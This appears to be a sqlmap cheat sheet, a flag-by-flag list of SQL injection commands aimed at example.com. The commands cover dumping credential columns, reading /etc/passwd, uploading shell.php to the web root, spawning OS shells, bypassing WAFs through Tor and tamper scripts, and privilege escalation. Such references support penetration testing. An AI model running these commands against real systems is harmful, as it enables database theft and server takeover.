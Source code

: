 ### **Basic Command Structure**
- **Syntax**:
  ```bash
  sqlmap -u "<URL>" [options]
  ```
- **Example**:
  ```bash
  sqlmap -u "http://example.com/login?user=admin"
  ```

### **Setup and Basics**
- `-u "<URL>"`: Specifies the target URL.
  ```bash
  sqlmap -u "http://example.com/page?id=1"
  ```
- `--data="<POST data>"`: Used for POST requests.
  ```bash
  sqlmap -u "http://example.com/login" --data="username=admin&password=1234"
  ```
- `--cookie="<cookie string>"`: Adds cookies to maintain sessions or for authentication.
  ```bash
  sqlmap -u "http://example.com/page" --cookie="PHPSESSID=abcd1234"
  ```
- `--level=[1-5]`: Sets test intensity; higher levels may increase testing depth.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --level=5
  ```
- `--risk=[1-3]`: Sets risk level (higher values may run intrusive tests).
  ```bash
  sqlmap -u "http://example.com/page?id=1" --risk=3
  ```

### **Detection Flags**
- `--batch`: Runs SQLMap with default responses (no prompts).
  ```bash
  sqlmap -u "http://example.com/page?id=1" --batch
  ```
- `--random-agent`: Randomizes User-Agent to bypass some protections.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --random-agent
  ```
- `--tor`: Routes SQLMap requests through the TOR network.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --tor
  ```
- `--wizard`: Starts interactive wizard mode to guide configuration.
  ```bash
  sqlmap --wizard
  ```

### **Testing Injection Points**
- `--technique=<techniques>`: Limits SQLMap to specific injection techniques (B, E, U, S, T).
  - **Example**:
    ```bash
    sqlmap -u "http://example.com/page?id=1" --technique=BEUS
    ```
  - `B`: Boolean-based
  - `E`: Error-based
  - `U`: UNION-based
  - `S`: Stacked queries
  - `T`: Time-based

### **Database Enumeration**
- `--dbs`: Lists all databases in the target.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --dbs
  ```
- `-D <database_name> --tables`: Lists all tables in a specified database.
  ```bash
  sqlmap -u "http://example.com/page?id=1" -D users --tables
  ```
- `-D <database_name> -T <table_name> --columns`: Lists all columns in a specified table.
  ```bash
  sqlmap -u "http://example.com/page?id=1" -D users -T accounts --columns
  ```

### **Extracting Data**
- `--dump`: Dumps data from all tables in a database.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --dump
  ```
- `-D <database_name> -T <table_name> --dump`: Dumps data from a specific table.
  ```bash
  sqlmap -u "http://example.com/page?id=1" -D users -T accounts --dump
  ```
- `--dump-all`: Dumps data from all databases.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --dump-all
  ```

### **Specific Data Extraction**
- `-C "<columns>"`: Specifies columns to extract from a table.
  ```bash
  sqlmap -u "http://example.com/page?id=1" -D users -T accounts -C "username,password" --dump
  ```

### **Authentication and Session Management**
- `--auth-type=<type>` and `--auth-cred="<username>:<password>"`: For basic, digest, NTLM, or certificate-based authentication.
  ```bash
  sqlmap -u "http://example.com/page" --auth-type=basic --auth-cred="admin:password"
  ```
- `--proxy=<proxy>`: Uses a proxy server.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --proxy="http://localhost:8080"
  ```
- `--proxy-cred="<username>:<password>"`: Adds authentication for proxies.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --proxy="http://localhost:8080" --proxy-cred="user:pass"
  ```
- `--headers="<headers>"`: Adds custom headers.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --headers="User-Agent: custom-agent"
  ```

### **HTTP Request Methods and Headers**
- `-r <request_file>`: Loads a saved HTTP request file.
  ```bash
  sqlmap -r request.txt
  ```
- `--method=<method>`: Sets HTTP method (e.g., `PUT`, `DELETE`).
  ```bash
  sqlmap -u "http://example.com/page" --method=PUT
  ```
- `--user-agent="<user_agent>"`: Sets a custom User-Agent string.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --user-agent="MyCustomAgent"
  ```
- `--referer="<referer>"`: Adds a referer header.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --referer="http://google.com"
  ```

### **Advanced Techniques and Options**
- `--os-shell`: Attempts to spawn an OS shell.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --os-shell
  ```
- `--sql-shell`: Opens a SQL shell to run custom SQL commands.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --sql-shell
  ```
- `--file-read=<file_path>`: Attempts to read server files.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --file-read="/etc/passwd"
  ```
- `--file-write=<local_file>` and `--file-dest=<remote_path>`: Uploads files.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
  ```

### **Bypassing WAFs and Firewalls**
- `--tamper=<script>`: Uses tamper scripts to modify payloads.
  - Example tamper scripts: `between.py`, `space2comment.py`
  ```bash
  sqlmap -u "http://example.com/page?id=1" --tamper=space2comment.py
  ```
- `--delay=<seconds>`: Adds delay between requests to avoid detection.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --delay=2
  ```
- `--safe-url=<URL>` and `--safe-freq=<freq>`: Re-checks a safe URL between attacks.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --safe-url="http://example.com/home" --safe-freq=10
  ```

### **Performance Optimization**
- `--threads=<num>`: Sets the number of concurrent threads.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --threads=5
  ```
- `--time-sec=<seconds>`: Sets time delay for time-based injections.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --time-sec=5
  ```

### **Post-Exploitation**
- `--os-pwn`: Attempts privilege escalation on the OS.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --os-pwn
  ```
- `--priv-esc`: Checks for privilege escalation vulnerabilities.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --priv-esc
  ```
- `--sqlmap-shell`: Opens an interactive SQL shell for advanced database commands.
  ```bash
  sqlmap --sqlmap-shell
  ```

Each of these commands allows for deep and customizable SQL injection testing, helping to identify and exploit vulnerabilities with **SQLMap** responsibly and within legal limits.
